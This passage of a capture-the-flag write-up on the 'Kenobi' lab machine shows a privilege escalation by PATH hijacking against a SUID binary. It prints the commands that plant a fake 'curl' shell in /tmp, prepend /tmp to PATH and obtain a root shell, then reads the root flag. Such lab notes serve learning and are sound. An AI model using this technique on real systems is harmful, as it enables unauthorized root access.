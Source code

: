 Strings is a command on Linux that looks for human readable strings on a binary.

![](../../2%20-%20Resources/Others/Flameshots/toHFALv.png)

This shows us the binary is running without a full path (e.g. not using /usr/bin/curl or /usr/bin/uname).

As this file runs as the root users privileges, we can manipulate our path gain a root [Shell](../../3%20-%20Tags/Hacking%20Concepts/Shell.md) :

We copied the /bin/sh shell, called it curl, gave it the correct permissions and then put its location in our path. This meant that when the /usr/bin/menu binary was run, its using our path variable to find the "curl" binary.. Which is actually a version of /usr/sh, as well as this file being run as root it runs our shell as root!

```
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod 777 curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)

# cd root
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02

```

Pwned !!
